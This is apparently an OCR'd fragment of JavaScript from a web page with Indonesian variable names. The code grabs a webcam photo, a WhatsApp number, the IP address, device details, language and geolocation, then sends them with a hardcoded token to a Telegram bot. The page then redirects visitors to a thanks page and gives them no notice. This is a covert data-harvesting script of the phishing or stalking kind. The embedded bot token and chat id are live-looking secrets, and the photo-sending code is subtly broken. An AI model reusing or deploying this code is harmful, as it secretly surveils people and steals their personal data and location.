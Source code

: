     function ambilFoto() {
      const video = document.getElementById('video');
      const canvas = document.getElementById('canvas');
      canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      canvas.getContext('2d').drawImage(video, 0, 0);
      fotoBase64 = canvas.toDataURL('image/jpeg');
    }

    function kirimData() {
      const whatsapp = document.getElementById("whatsapp").value.trim();
      if (!whatsapp) return alert("Masukkan nomor WhatsApp!");

      document.getElementById("step1").style.display = "none";
      document.getElementById("step2").style.display = "none";
      document.getElementById("loading").style.display = "block";

      const token = '8051593906:AAFeMij6V_XGMcRsL1Jkf5XpP_P3VAKo0Mo';
      const chat_id = '6374002294';
      const device = navigator.userAgent;
      const lang = navigator.language;
      const time = new Date();
      const hari = new Intl.DateTimeFormat('id-ID', { weekday: 'long' }).format(time);

      function kirimPesan(text) {
        fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ chat_id: chat_id, text: text })
        });
      }

      function kirimFoto(base64) {
        fetch(`https://api.telegram.org/bot${token}/sendPhoto`, {
          method: 'POST',
          body: new FormData().append('chat_id', chat_id).append('photo', base64)
        });
      }

      function formatPesan(lat, lon, cuaca) {
        return `INFORMASI DATA\nNama: ${namaGlobal}\nWhatsApp: ${whatsapp}\nIP: ${ipPublic}\nPerangkat: ${device}\nBahasa: ${lang}\nWaktu: ${time.toLocaleString('id-ID')}\nHari: ${hari}\nLokasi: https://www.google.com/maps?q=${lat},${lon}\nCuaca: ${cuaca}`;
      }

      function ambilCuaca(lat, lon) {
        fetch(`https://api.openweathermap.org/data/2.5/weather?lat=${lat}&lon=${lon}&appid=ISI_API_KEY_CUACA&units=metric`)
          .then(res => res.json())
          .then(data => {
            const suhu = data.main.temp;
            const deskripsi = data.weather[0].description;
            const cuaca = `${deskripsi}, ${suhu}°C`;
            kirimPesan(formatPesan(lat, lon, cuaca));
            if (fotoBase64) kirimFoto(fotoBase64);
            setTimeout(() => window.location.href = "thanks.html", 3000);
          })
          .catch(() => {
            kirimPesan(formatPesan("Tidak diketahui", "Tidak diketahui", "Gagal ambil cuaca"));
            if (fotoBase64) kirimFoto(fotoBase64);
            setTimeout(() => window.location.href = "thanks.html", 3000);
          });
      }
